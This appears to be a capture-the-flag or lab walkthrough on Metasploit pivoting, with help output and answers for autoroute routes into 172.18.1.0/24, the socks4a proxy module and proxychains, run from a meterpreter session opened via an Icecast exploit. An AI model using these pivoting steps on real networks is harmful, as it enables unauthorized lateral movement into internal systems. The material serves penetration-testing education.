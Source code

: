 1. Let's go ahead and run the command `run autoroute -h`, this will pull up the help menu for autoroute. What command do we run to add a route to the following subnet: 172.18.1.0/24? Use the -n flag in your answer.

```
meterpreter > run autoroute -h

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Usage:   run autoroute [-r] -s subnet -n netmask
[*] Examples:
[*]   run autoroute -s 10.1.1.0 -n 255.255.255.0  # Add a route to 10.10.10.1/255.255.255.0
[*]   run autoroute -s 10.10.10.1                 # Netmask defaults to 255.255.255.0
[*]   run autoroute -s 10.10.10.1/24              # CIDR notation is also okay
[*]   run autoroute -p                            # Print active routing table
[*]   run autoroute -d -s 10.10.10.1              # Deletes the 10.10.10.1/255.255.255.0 route
[*] Use the "route" and "ipconfig" Meterpreter commands to learn about available routes
[-] Deprecation warning: This script has been replaced by the post/multi/manage/autoroute module
```

`run autoroute -s 172.18.1.0 -n 255.255.255.0`

2. Additionally, we can start a socks4a proxy server out of this session. Background our current meterpreter session and run the command `search server/socks4a`. What is the full path to the socks4a auxiliary module?

```
msf5 exploit(windows/http/icecast_header) > search server/socks4a

Matching Modules
================

   #  Name                      Disclosure Date  Rank    Check  Description
   -  ----                      ---------------  ----    -----  -----------
   0  auxiliary/server/socks4a                   normal  No     Socks4a Proxy Server
```

`search server/socks4a`

3. Once we've started a socks server we can modify our /etc/proxychains.conf file to include our new server. What command do we prefix our commands (outside of Metasploit) to run them through our socks4a server with proxychains?

```
msf5 exploit(windows/http/icecast_header) > proxychains
[*] exec: proxychains

ProxyChains-3.1 (http://proxychains.sf.net)
        usage:
                proxychains <prog> [args]
```

`proxychains`
